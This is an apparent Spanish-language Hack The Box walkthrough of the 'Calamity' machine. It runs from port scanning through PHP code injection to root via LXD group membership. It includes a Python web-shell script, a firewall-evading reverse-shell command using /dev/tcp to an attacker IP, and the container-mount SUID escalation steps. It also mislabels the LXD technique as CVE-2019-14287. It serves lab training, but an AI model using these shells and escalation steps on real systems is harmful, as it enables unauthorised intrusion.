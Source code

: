 ```yaml
---
title : Máquina|Calamity|HTB|RCE|LXD
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Calamity/Calamity0.png" style="border-radius: 150px; width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Dificil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/Calamity" style="color: lightblue;">Calamity</a></p>
    </div>
</div>


 <h2><font color="white"><center> # Calamity</center></font></h2>
* Empezamos con la enumeración de puertos.
> sudo nmap --min-rate 5000 -sS -Pn --open -p- 10.10.10.27
>
<img src="imgs/Calamity/Calamity1.png">

<br>
* Posteriormente vemos la version y servicio que corren en estos puertos.
>nmap -sCV -p22,80 10.10.10.27
>
<img src="imgs/Calamity/Calamity2.png">

<br>
* Empezamos la identificación de tecnologías plugins y versiones para esta pagina web.
>
<img src="imgs/Calamity/Calamity3.png">

<br>
* Probamos credenciales por defecto por ssh ya que es el puerto con un poco mas de relevancia, pero no obtenemos nada relevante.
>ssh anonymous@10.10.10.27
>
<img src="imgs/Calamity/Calamity4.png">

<br>
* Lanzamos un script de nmap para el reconocimiento de posibles rutas en la pagina web.
> nmap --script http-enum -p80 10.10.10.27
>
<img src="imgs/Calamity/Calamity5.png">

<br>

* Observando las rutas, veo que hay credenciales en la pagina web.
>
<img src="imgs/Calamity/Calamity6.png">

* Cuando inicio sesion tenemos un campo el cual es injectable a código php, y obtenemos un RCE.
>
<img src="imgs/Calamity/Calamity7.png">

<br>
* Cuando intento crearme una reverse Shell no me llega la conexión, lo que me hace pensar que tiene reglas de firewall instaladas para matar la conexión cuando se detecte, por lo que empezamos a montar un script en python simulando una Shell.

```python
#!/usr/bin/python

import requests

while True:

	command = input("~$ ")
	url = f'http://10.10.10.27/admin.php/?0={command}&html=%3C?=`$_GET[0]`;?%3E' 

	cookies = {
	    'adminpowa': 'noonecares'
	}

	response = requests.get(url, cookies=cookies)

	print(response.text)

```
<br>
* web-shell.py
>
<img src="imgs/Calamity/Calamity8.png">

* Si el cortafuegos me mata la conexión cuando detecta el uso de bash, porque no cambiar el nombre de bash?
>
<img src="imgs/Calamity/Calamity9.png">
<img src="imgs/Calamity/Calamity10.png">

* Renombrando la bash intentemos ahora entablar la conexión, pero para que no de problemas en cabeza a el urlencode codificamos primero la petición en ese formato que poseerá la Reverse Shell.
>/tmp/bypass -c '/tmp/bypass -i >& /dev/tcp/10.10.14.4/4445 0>&1'
>
<img src="imgs/Calamity/Calamity11.png">

<br>
* Posteriormente mandamos la petición y nos ponemos en escucha
>sudo nc -nlvp 4445
>
<img src="imgs/Calamity/Calamity12.png">

* Empezamos con un corto tratamiento a la consola para hacerla un poco mas interactiva.
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
```
>
<img src="imgs/Calamity/Calamity13.png">

<br>
* Exportamos configuraciones para hacerla aun mas interactiva.
```bash
export TERM=xterm
export SHELL=bash
```
>
<img src="imgs/Calamity/Calamity14.png">

* Observamos que hay un usuario en /home y conseguimos la primera Flag.
>
<img src="imgs/Calamity/Calamity16.png">

* Vemos que efectivamente había un firewall que nos mataba las conexiones.
>
<img src="imgs/Calamity/Calamity17.png">

* Vemos dos archivo con la misma extension.
>
<img src="imgs/Calamity/Calamity18.png">

<br>
* Nos transferimos esos archivos para examinarlos mas a fondo.
>
<img src="imgs/Calamity/Calamity19.png">

* Tienen el mismo sonido pero no el mismo identificador.
>
<img src="imgs/Calamity/Calamity20.png">

* Instalamos audacity.
> sudo apt-get install aducity

<br>
* Importamos los audios y le damos en la parte de invertir.
>
<img src="imgs/Calamity/Calamity21.png">

<br>
* Posteriormente podemos escuchar que nos dice una credencial al inicio y una parte al final, como el audio esta inverso la parte final es la inicial y la parte inicial es la parte final.
> Credencial escuchada : 18547936..*

<br>
* Mirando mas a detalle identifique que la credencial era del usuario xalvas.
>
<img src="imgs/Calamity/Calamity22.png">

<br>

* Al ver los grupos vemos que estamos enlazados a (LXD) lo que hace vulnerable al equipo a un ataque (LXD) para el despliegue de contenedores.
<a href="https://otterhacker.github.io/Pentest/Techniques/Privileges%20escalation/Linux.html">Mas información CVE-2019-14287.</a>
>
<img src="imgs/Calamity/Calamity23.png">

<br>
* Posteriormente vemos que hay un exploit creado por s4vitar que simplemente lo que hace es automatizar el levantamiento del contenedor.
>
<img src="imgs/Calamity/Calamity24.png">

<br>
* Nos dice que tenemo que descarga el archivo alpine-builder.
>
<img src="imgs/Calamity/Calamity25.png">

<br>
* Una vez descargado lo que hacemos sera darle soporte a las dependencias, ya que de por si si lo ejecuta sin actualizar la dependencia le dara errores.
>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
>
<img src="imgs/Calamity/Calamity26.png">

* Convertimos a formato Unix el script.
>dos2unix 46978.sh
>
<img src="imgs/Calamity/Calamity27.png">

* Vemos que la maquina es de 32 bits sabemos esto por el i686, esto es importante en base a la creación del docker.
>uname -a
>
<img src="imgs/Calamity/Calamity28.png">

* Posteriormente damos permisos de ejecución y preparamos el build en formato de 32 bits.
> 
>
<img src="imgs/Calamity/Calamity29.png">

* Nos montamos un servidor http para poder compartir los archivos y los descargamos en la maquina de htb, cabe aclarar que la única ruta donde tenemos permisos de escritura es en /dev/shm.
>
<img src="imgs/Calamity/Calamity30.png">

<br>
* Procedemos con la ejecución del docker.
>
<img src="imgs/Calamity/Calamity31.png">

* El error que aparece es porque se esta invocando el docker dos veces para solucionar ese error simplemente comentamos la siguiente linea de código.
>
<img src="imgs/Calamity/Calamity32.png">

<br>

* Procedemos a subir el archivo con las modificaciones realizadas.
>
<img src="imgs/Calamity/Calamity33.png">

* Cuando volvamos a ejecutar el script nos dará root
>
<img src="imgs/Calamity/Calamity34.png">

<br>

* Lo que hace es montar toda la partición de la raíz en un contenedor el cual esta montado en /mnt/root/ Cualquier cosa que modifique en esa montura la modificara en la maquina real, entonces para ganar root completamente agregamos permisos SUID al binario /bin/bash.
>
<img src="imgs/Calamity/Calamity35.png">

<br>

* Ya podríamos ver la flag de root.
>
<img src="imgs/Calamity/Calamity36.png">
